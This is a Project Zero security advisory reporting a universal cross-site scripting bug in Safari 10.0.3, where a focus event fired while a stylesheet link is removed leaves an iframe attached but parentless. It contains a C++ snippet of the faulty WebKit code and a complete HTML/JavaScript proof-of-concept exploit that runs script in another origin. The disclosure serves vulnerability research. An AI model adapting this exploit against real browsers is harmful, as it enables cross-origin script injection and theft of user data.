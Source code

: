 # UXSS via a focus event and a link element
### Reported by lokihardt@google.com, Feb 9 2017

This is somewhat similar to [https://crbug.com/663476](https://crbug.com/663476).

Here's a snippet of `Container::replaceAllChildren`.
``` cpp
while (RefPtr<Node> child = m_firstChild) {
    removeBetween(nullptr, child->nextSibling(), *child);
    notifyChildNodeRemoved(*this, *child);
}
```

If the location hash value is set, the page will give focus to the associated element. However, if there is a stylesheet that has not been loaded yet, the focusing will be delayed until the stylesheet gets loaded. The problem is that when the link element linked to the last pending stylesheet is removed from the parent, the `notifyChildNodeRemoved` function may end up to fire a focus event which runs arbitrary JavaScript code, which can make an iframe(`g` in the PoC) that has an attached frame but has no parent.

Tested on Safari 10.0.3(12602.4.8).

PoC:
```html
<html>

<head>
</head>

<body>
  <script>
    let f = document.body.appendChild(document.createElement('iframe'));
    let inp = f.contentDocument.head.appendChild(document.createElement('input'));
    let link = inp.appendChild(document.createElement('link'));
    link.rel = 'stylesheet';
    link.href = 'data:,aaaaazxczxczzxzcz';

    let btn = f.contentDocument.body.appendChild(document.createElement('button'));
    btn.id = 'btn';
    btn.onfocus = () => {
      btn.onfocus = null;

      window.g = inp.appendChild(document.createElement('iframe'));
      window.g.onload = () => {
        window.g.onload = null;

        window.g.src = 'javascript:alert(location)';
        let xml = `
<svg xmlns="http://www.w3.org/2000/svg">
<script>
document.documentElement.appendChild(parent.g);

</sc` + `ript>
<element a="1" a="2" />
</svg>`;

        let h = document.body.appendChild(document.createElement('iframe'));
        h.src = URL.createObjectURL(new Blob([xml], {
          type: 'text/xml'
        }));
      };

      window.g.src = 'https://abc.xyz/';
    };

    f.contentWindow.location.hash = 'btn';
    inp.textContent = '';
  </script>
</body>

</html>
```

https://bugs.chromium.org/p/project-zero/issues/detail?id=1119
